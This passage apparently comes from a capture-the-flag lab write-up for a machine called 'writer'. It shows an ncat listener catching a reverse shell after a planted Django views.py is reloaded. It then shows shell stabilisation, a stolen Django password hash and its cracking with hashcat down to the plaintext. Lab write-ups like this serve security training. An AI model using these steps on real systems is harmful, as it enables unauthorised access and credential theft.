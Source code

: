 We set up a ncat listener on the specified port and replace the file on the samba share with our modified version.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

```
putting file views.py as \writer_web\views.py (3.2 kb/s) (average 3.2 kb/s)
smb: \writer_web\ >
```

Django reloads the file almost instantly resulting in a reverse shell back to us. We upgrade the shell in a next step to stabilize it.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.182.107.
Ncat: Connection from 10.129.182.107:49024.
bash: cannot set terminal process group (1058): Inappropriate ioctl for device
bash: no job control in this shell
www-data@writer:~/writer2_project$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ect$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@writer:~/writer2_project$ export TERM=xterm
export TERM=xterm
www-data@writer:~/writer2_project$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

www-data@writer:~/writer2_project$
```

Now we are able to read the `django_hashes` file which contains the hash for the user kyle.

```
www-data@writer:~/writer2_project$ cat django_hashes
username        password
kyle    pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=
```

Hashcat cracks it quite quickly and we can log in over ssh as kyle and grab the user flag.

```
$ hashcat -m 10000 -O hash rockyou.txt
hashcat (v6.2.3) starting
pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Django (PBKDF2-SHA256)
Hash.Target......: pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8...uXM4A=
Time.Started.....: Sat Jul 31 22:47:14 2021 (18 secs)
Time.Estimated...: Sat Jul 31 22:47:32 2021 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2249 H/s (8.90ms) @ Accel:4 Loops:128 Thr:1024 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 40960/14344387 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 0/14344387 (0.00%)
```